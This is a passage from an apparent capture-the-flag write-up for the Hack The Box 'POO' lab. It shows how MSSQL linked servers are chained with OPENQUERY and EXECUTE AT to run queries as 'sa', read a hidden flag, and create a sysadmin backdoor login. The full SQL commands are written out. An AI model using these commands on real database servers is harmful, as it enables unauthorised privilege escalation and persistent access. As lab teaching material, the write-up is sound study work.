 We can enumerate the list of databases from `POO_CONFIG` but there is nothing interesting.

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_2.png)

`select * from openquery("COMPATIBILITY\POO_CONFIG",'SELECT * FROM master.dbo.sysdatabases')`

```
master	1	0x01
tempdb	2	0x01
POO_CONFIG	5	0x4E6C9A727878684DA065E7C29005704D
```
Let's double check manually what PowerUpSQL has given us regarding `internal_user` and check if this user has `sysadmin` privileges:

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_4.png)

Unfortunately, we don't have `sysadmin` on `POO_CONFIG`

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_5.png)

Now, if we use OPENQUERY from `POO_CONFIG` back to `POO_PUBLIC` we get interesting results.

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_6.png)

Sweet! We are running queries on `POO_PUBLIC` as user `sa` if we pass them through `POO_CONFIG`!

We can use an openquery to find a previsouly hidden database (from our external_user) on `COMPATIBILITY\POO_PUBLIC`

`select * from openquery("COMPATIBILITY\POO_CONFIG",'select * from openquery("COMPATIBILITY\POO_PUBLIC",''SELECT * FROM flag.dbo.flag'')')`

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_7.png)

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_8.png)

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_9.png)

We found a flag in flag.dbo.flag: `POO{88d829eb39f2d1...}`

### MSSQL RCE

Next, we can create ourselves a user on `COMPATIBILITY\POO_PUBLIC` with `sysadmin` privileges so we don't need to go through linked servers again.

`EXECUTE('EXECUTE(''EXEC master..sp_addlogin ''''booya'''', ''''0wned123!'''''') AT "COMPATIBILITY\POO_PUBLIC"') AT "COMPATIBILITY\POO_CONFIG"`

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_10.png)

And then add it the `sysadmin` privileges:

`EXECUTE('EXECUTE(''EXEC master..sp_addsrvrolemember ''''booya'''', ''''sysadmin'''''') AT "COMPATIBILITY\POO_PUBLIC"') AT "COMPATIBILITY\POO_CONFIG"`

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_11.png)
